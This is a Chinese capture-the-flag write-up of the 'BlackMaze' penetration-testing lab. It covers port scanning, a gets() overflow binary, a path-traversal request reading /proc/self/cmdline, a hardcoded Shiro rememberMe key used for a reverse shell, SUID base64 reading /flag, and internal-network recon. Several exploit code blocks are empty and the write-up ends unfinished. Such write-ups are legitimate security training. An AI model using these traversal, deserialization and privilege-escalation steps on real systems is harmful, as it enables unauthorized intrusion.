




# BlackMaze

本场景着重考察选手在黑盒场景下发现漏洞的能力, 从常规的信息收集到复杂的 rasp 的绕过, 全面模拟真实企业攻防对抗环境, 层层设防、步步为营, 选手需凭借扎实的渗透测试功底和出色的安全研究能力, 在完全未知的黑盒条件下完成从外网突破到内网漫游、从应用层攻击到运行时防护绕过的完整攻击链路, 该靶场共有 4 个 Flag, 分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- Shiro
- Redis
- openrasp
- 信息搜集

:::

```plaintext title="入口点"
39.98.110.213
```

## 入口点探测

按照常规思路，直接上 fscan 进行扫描

```shell title="./tools/fscan_1.8.4/fscan -h 39.98.110.213"
start infoscan
39.98.110.213:8080 open
39.98.110.213:22 open
39.98.110.213:8081 open
[*] alive ports len is: 3
start vulscan
[*] WebTitle http://39.98.110.213:8081 code:200 len:397    title:Directory listing for /
[+] InfoScan http://39.98.110.213:8081 [目录遍历] 
[*] WebTitle http://39.98.110.213:8080 code:302 len:0      title:None 跳转url: http://39.98.110.213:8080/login;jsessionid=DB601907396DF299096F2ECBC65675C5
[*] WebTitle http://39.98.110.213:8080/login;jsessionid=DB601907396DF299096F2ECBC65675C5 code:200 len:8663   title:Login
```

## 入口机 Port 8081

直接就是目录遍历的界面，里面列出了两个文件

```plaintext
- start_http_server.py
- exrop
```

查看两个文件的内容

```python title="start_http_server.py"
#!/usr/bin/env python3
import http.server
import socketserver

PORT = 8081

Handler = http.server.SimpleHTTPRequestHandler

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print(f"Serving on port {PORT}")
    httpd.serve_forever()
```

这个 python 文件没有什么特殊的地方，就是开放了当前 8081 端口的服务

分析看下 exrop 文件



进 IDA 查看一下

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
    _BYTE v4[304]; // [rsp+0h] [rbp-130h] BYREF

    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    puts("Pwn me");
    gets(v4);
    return 0;
}
```

那就很明显了，这是一个 pwn 目标，但是还不清楚这个交互位于哪里

猜测这个 pwn 目标存在于开放的端口，使用 nmap 进行全端口扫描，发现位于 `65533/tcp` 端口上，编写 exp 进行利用

```python
```

## 入口机 Port 8080

直接访问，是一个登录的界面



尝试对其进行目录扫描，只发现了 `/login` 路由

通过对其发送登录请求并抓包，发现返回包中存在有 Shiro 特征

```plaintext
Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; Expires=Sun, 29-Mar-2026 13:07:49 GMT
```

使用 Shiro 利用工具，尝试爆破 key 但是失败了，怀疑需要其他途径进行读取

对页面源码进行分析，得到

```javascript
function uploadFile(file) {
    console.log("上传文件到服务器:", file.name);
    // 模拟上传文件的请求
    fetch('/file/upload', {
        method: 'POST',
        body: file
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件上传成功:", data);
            } else {
                console.error("文件上传失败:", data.message);
            }
        })
        .catch(error => {
            console.error("上传文件失败:", error);
        });
}

function downloadFile(path) {
    console.log(`正在下载文件: ${path}`);

    // 模拟从服务器请求下载文件
    fetch(`/file/download?path=${encodeURIComponent(path)}`, {
        method: 'GET'
    })
        .then(response => {
            if (!response.ok) {
                throw new Error("文件下载失败，服务器返回错误");
            }
            return response.blob();  // 返回文件内容的 Blob 对象
        })
        .then(blob => {
            // 创建一个 URL 对象用于下载文件
            const link = document.createElement("a");
            link.href = URL.createObjectURL(blob);
            link.download = path.split('/').pop();  // 提取文件名作为下载时的文件名
            link.click();  // 自动触发下载
            console.log(`文件下载成功: ${path}`);
        })
        .catch(error => {
            console.error("文件下载失败:", error);
        });
}

function renameFile(filePath, newFileName) {
    console.log(`重命名文件 ${filePath} 为 ${newFileName}`);
    fetch('/file/rename', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ filePath, newFileName })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件重命名成功:", data);
            } else {
                console.error("文件重命名失败:", data.message);
            }
        })
        .catch(error => {
            console.error("重命名失败:", error);
        });
}

function deleteFile(filePath) {
    console.log("删除文件:", filePath);
    fetch('/file/delete', {
        method: 'DELETE',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ filePath })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件删除成功:", data);
            } else {
                console.error("文件删除失败:", data.message);
            }
        })
        .catch(error => {
            console.error("删除文件失败:", error);
        });
}

function moveFile(sourcePath, destinationPath) {
    console.log(`移动文件从 ${sourcePath} 到 ${destinationPath}`);
    fetch('/file/move', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ sourcePath, destinationPath })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件移动成功:", data);
            } else {
                console.error("文件移动失败:", data.message);
            }
        })
        .catch(error => {
            console.error("移动文件失败:", error);
        });
}

function copyFile(sourcePath, destinationPath) {
    console.log(`复制文件从 ${sourcePath} 到 ${destinationPath}`);
    fetch('/file/copy', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ sourcePath, destinationPath })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件复制成功:", data);
            } else {
                console.error("文件复制失败:", data.message);
            }
        })
        .catch(error => {
            console.error("复制文件失败:", error);
        });
}

function readFile(filePath) {
    console.log("读取文件:", filePath);
    fetch(`/file/read?path=${encodeURIComponent(filePath)}`)
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件内容:", data.content);
            } else {
                console.error("读取文件失败:", data.message);
            }
        })
        .catch(error => {
            console.error("读取文件失败:", error);
        });
}

function getFileStats(filePath) {
    console.log("获取文件信息:", filePath);
    fetch(`/file/stats?path=${encodeURIComponent(filePath)}`)
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("文件信息:", data.stats);
            } else {
                console.error("获取文件信息失败:", data.message);
            }
        })
        .catch(error => {
            console.error("获取文件信息失败:", error);
        });
}

function searchFiles(query) {
    console.log("搜索文件:", query);
    fetch(`/file/search?query=${encodeURIComponent(query)}`)
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("搜索结果:", data.files);
            } else {
                console.error("搜索失败:", data.message);
            }
        })
        .catch(error => {
            console.error("搜索文件失败:", error);
        });
}

function createDirectory(directoryPath) {
    console.log("创建目录:", directoryPath);
    fetch('/file/create-directory', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ directoryPath })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("目录创建成功:", data);
            } else {
                console.error("目录创建失败:", data.message);
            }
        })
        .catch(error => {
            console.error("创建目录失败:", error);
        });
}

function deleteDirectory(directoryPath) {
    console.log("删除目录:", directoryPath);
    fetch('/file/delete-directory', {
        method: 'DELETE',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ directoryPath })
    })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                console.log("目录删除成功:", data);
            } else {
                console.error("目录删除失败:", data.message);
            }
        })
        .catch(error => {
            console.error("删除目录失败:", error);
        });
}
```

利用文件下载接口

```plaintext title="http://39.98.110.213:8080/file/download?path=../../../../../../../proc/self/cmdline"
/usr/bin/java -jar /home/webapp/ShiroProject-0.0.1-SNAPSHOT.jar
```

获取站点 jar 路径之后，下载下来进行分析



```java
private static final String CUSTOM_CIPHER_KEY = "n5RYm2z1V60+D+OiNLXksQ==";
```

得到 key 之后进行利用



反弹 shell 之后，查看权限

```shell
(remote) webapp@Shiro:/home/webapp$ whoami
webapp
```

## flag - 01

首先需要进行提权

```shell
(remote) webapp@Shiro:/home/webapp$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/mount
/usr/bin/stapbpf
/usr/bin/staprun
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/su
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/bin/base64
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/fusermount
```

`base64` 已经足够用来读取 flag

```shell
(remote) webapp@Shiro:/home/webapp$ /usr/bin/base64 /flag | base64 -d
flag{16fc0d69-a7b9-0a5d-5ff6-8eab6776774f}
```

## 入口机 Port 65533 Pwn

skip

## 入口机 内网探测

获取网卡信息

```shell
(remote) webapp@Shiro:/tmp$ ifconfig 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.10.22  netmask 255.255.255.0  broadcast 172.22.10.255
        inet6 fe80::216:3eff:fe39:f8db  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:39:f8:db  txqueuelen 1000  (Ethernet)
        RX packets 195078  bytes 145075217 (145.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 127196  bytes 42225411 (42.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1718  bytes 157256 (157.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1718  bytes 157256 (157.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

上传 chisel 和 fscan 搭建枢纽

```plaintext title="./fscan -h 172.22.10.0/24"
[*] WebTitle http://172.22.10.22:8080  code:302 len:0      title:None 跳转url: http://172.22.10.22:8080/login;jsessionid=6F8D5E3EB179349B16484066227D889A
[*] WebTitle http://172.22.10.155      code:200 len:10918  title:Apache2 Ubuntu Default Page: It works
[*] WebTitle http://172.22.10.22:8080/login;jsessionid=6F8D5E3EB179349B16484066227D889A code:200 len:8663   title:Login
[*] WebTitle http://172.22.10.22:8081  code:200 len:397    title:Directory listing for /
[*] WebTitle http://172.22.10.3        code:200 len:931    title:None
[+] InfoScan http://172.22.10.22:8081  [目录遍历] 
[*] WebTitle http://172.22.10.154      code:200 len:691    title:None
[+] PocScan http://172.22.10.3 poc-yaml-thinkphp5023-method-rce poc1
```

搭建代理

```shell
```

TODO RASP 暂时没有思路绕过去
